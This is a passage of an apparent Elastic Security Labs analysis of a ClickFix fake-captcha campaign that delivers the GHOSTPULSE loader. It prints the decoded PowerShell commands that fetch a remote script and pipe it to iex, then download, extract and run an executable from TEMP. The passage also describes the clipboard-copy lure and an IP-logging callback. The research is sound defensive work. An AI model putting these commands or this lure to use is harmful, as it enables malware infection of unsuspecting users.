 We observed two infrastructures (both resolving to `50.57.243[.]90`) `https://clients[.]dealeronlinemarketing[[.]]com/captcha/` and `https://clients[.]contology[.]com/captcha/` that deliver the same initial payload.

User interaction on this page initiates execution. GHOSTPULSE serves as the malware loader in this campaign. Elastic Security Labs has been closely tracking this loader, and our previous research ([2023 and](https://www.elastic.co/security-labs/ghostpulse-haunts-victims-using-defense-evasion-bag-o-tricks) [2024](https://www.elastic.co/security-labs/tricks-and-treats)) provided a detailed look into its initial capabilities.

![Fake captcha hosted by contology[.]com](/assets/images/a-wretch-client/image12.png "Fake captcha hosted by contology[]].com")

The webpage is a heavily obfuscated JavaScript script that generates the HTML code and JavaScript, which copies a PowerShell command to the clipboard.

![Obfuscated JavaScript of the captcha page](/assets/images/a-wretch-client/image20.png "Obfuscated JavaScript of the captcha page")

Inspecting the runtime HTML code in a browser, we can see the front end of the page, but not the script that is run after clicking on the checkbox `Verify you are human.`

![HTML code of the captcha page](/assets/images/a-wretch-client/image26.png "HTML code of the captcha page")

A simple solution is to run it in a debugger to retrieve the information during execution. The second JS code is obfuscated, but we can easily identify two interesting functions. The first function, `runClickedCheckboxEffects`, retrieves the public IP address of the machine by querying `https://api.ipify[.]org?format=json,` then it sends the IP address to the attacker’s infrastructure,  `https://koonenmagaziner[.]click/counter/&lt;IP_address>,` to log the infection.

![JavaScript of the captcha page](/assets/images/a-wretch-client/image19.png "JavaScript of the captcha page")

The second function copies a base64-encoded PowerShell command to the clipboard.

![Command copied to the clipboard by the JavaScript script](/assets/images/a-wretch-client/image11.png "Command copied to the clipboard by the JavaScript script")

![PowerShell command copied to the clipboard](/assets/images/a-wretch-client/image25.png "PowerShell command copied to the clipboard")

Which is the following when it is base64 decoded

```powershell
(Invoke-webrequest -URI 'https://shorter[.]me/XOWyT' 
    -UseBasicParsing).content | iex
```

When executed, it fetches the following PowerShell script:

```powershell
Invoke-WebRequest -Uri "https://bitly[.]cx/iddD" -OutFile 
    "$env:TEMP\ComponentStyle.zip"; Expand-Archive -Path 
    "$env:TEMP/ComponentStyle.zip" -DestinationPath 
    "$env:TEMP"; & "$env:TEMP\crystall\Crysta_x86.exe"
```

The observed infection process for this campaign involves **GHOSTPULSE**'s deployment as follows: After the user executes the PowerShell command copied by **ClickFix**, the initial script fetches and runs additional **commands**. These PowerShell **commands** download a ZIP file (`ComponentStyle.zip`) from a remote location and then extract it into a temporary directory on the victim's system.
